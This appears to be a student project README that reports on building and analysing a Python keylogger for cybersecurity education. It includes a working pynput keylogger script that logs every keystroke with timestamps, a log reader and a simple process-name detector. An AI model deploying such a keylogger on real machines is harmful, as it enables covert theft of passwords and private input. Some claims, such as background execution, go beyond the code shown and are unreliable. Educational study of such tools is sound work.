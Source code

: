 # Development and Analysis of a Keylogger using Python

![NIELIT Logo](assets/NIELIT_logo.jpg)

## Executive Summary
A Python-based keylogger was developed and analyzed to understand its functionality, potential misuse, and defense strategies in cybersecurity. 
The project highlights both the technical aspects of creating such tools and the ethical implications of their usage. 
By studying keylogger behavior, the project emphasizes the importance of awareness, detection, and mitigation strategies to strengthen system security.

## Abstract
This project focuses on the development and analysis of a simple keylogger application using Python for educational and research purposes in cybersecurity. 
The implementation begins with utilizing Python libraries such as `pynput` to capture keyboard events in real time. 
The captured keystrokes are stored in a log file, allowing the monitoring of user input for analysis.

The project explores techniques for running the keylogger in the background, ensuring it operates unobtrusively without interrupting normal system usage. 
Additional functionality, such as time-stamping keystrokes and custom log file storage paths, is also implemented to enhance usability.

On the analytical side, the project examines the potential security implications of keyloggers, including their use in both ethical research and malicious attacks. 
It highlights countermeasures such as antivirus detection, system monitoring tools, and user awareness programs to mitigate risks.

Overall, this project serves as a practical demonstration of how keyloggers function while also emphasizing ethical considerations, 
defensive strategies, and the importance of understanding such tools in the field of cybersecurity.

---

## Introduction
The rise of cyber threats has made cybersecurity an essential discipline in the digital age. 
Among the numerous tools used by attackers, keyloggers remain one of the most effective means of compromising sensitive information. 
A keylogger records keystrokes typed on a keyboard and may be used for malicious purposes such as stealing credentials, financial information, or confidential data. 

However, studying keyloggers is equally important in ethical hacking and cybersecurity education to understand how attackers operate and how to defend against such threats. 
This project introduces the design and implementation of a simple keylogger using Python, providing insights into its development, operation, and associated risks.

---

## Methodology
The methodology for this project involved the following steps:

1. **Environment Setup**: Python environment was prepared with required libraries such as `pynput`.
2. **Implementation of Keylogger**: A script was developed to capture keystrokes in real time and store them in a log file.
3. **Enhancements**: Features such as time-stamping and background execution were added.
4. **Testing**: The script was tested on a controlled environment to validate its accuracy and efficiency.
5. **Analysis**: The behavior of the keylogger was studied to identify potential risks and countermeasures.

This approach ensured that the project remained within ethical and educational boundaries, avoiding misuse while demonstrating practical functionality.

---

## Code Implementation

### 🔹 `demo_keylogger.py`
```python
from pynput import keyboard
import logging
from datetime import datetime

# Log file configuration
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### 🔹 `log_analyzer.py`
```python
# Reads log file and prints analysis
def analyze_logs(log_file="key_log.txt"):
    try:
        with open(log_file, "r") as f:
            lines = f.readlines()
            print(f"Total keystrokes recorded: {len(lines)}")
            print("Sample log entries:")
            print("".join(lines[:10]))
    except FileNotFoundError:
        print("Log file not found.")

if __name__ == "__main__":
    analyze_logs()
```

### 🔹 `detector.py`
```python
import psutil

# Detect if 'python' process is running keylogger
def detect_keylogger():
    suspicious = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if "python" in proc.info['name'].lower() and "keylogger" in " ".join(proc.info['cmdline']).lower():
                suspicious.append(proc.info)
        except Exception:
            pass
    if suspicious:
        print("⚠️ Potential Keylogger Detected:", suspicious)
    else:
        print("✅ No keylogger detected.")

if __name__ == "__main__":
    detect_keylogger()
```

---

## Results and Analysis
The developed Python keylogger successfully captured keystrokes and stored them in a designated log file. 
The tool was able to operate in the background without disrupting normal system operations.

Key Observations:
- The keylogger reliably recorded user inputs including letters, numbers, and special characters.
- Time-stamping provided contextual information useful for forensic analysis.
- Running in the background made it unobtrusive and difficult to detect for an untrained user.

The project confirmed the potential dangers of keyloggers when misused, including identity theft, data breaches, and unauthorized surveillance. 
It emphasized the importance of employing defensive measures such as updated antivirus software, intrusion detection systems, and strong user awareness programs.

---

## Conclusion
This project successfully demonstrated the development and operation of a keylogger using Python. 
It provided insights into how such tools function, their potential malicious use, and the ethical importance of studying them in the context of cybersecurity. 

Future work could involve extending the project to analyze detection techniques using machine learning and exploring more advanced countermeasures. 
Ultimately, this project underscores the balance between offensive cybersecurity research and defensive application in real-world scenarios.

---

## References
1. Alazab, M. (2015). Malware detection and mitigation in computer networks: Keyloggers and spyware. IEEE Communications Surveys & Tutorials.
2. Python Software Foundation. (2023). Python Documentation. Available at: https://docs.python.org
3. Pynput Library Documentation. (2023). Available at: https://pynput.readthedocs.io/
4. Stallings, W. (2018). Computer Security: Principles and Practice. Pearson.
5. SANS Institute. (2022). Keylogger Threats and Defensive Strategies. Available at: https://www.sans.org/
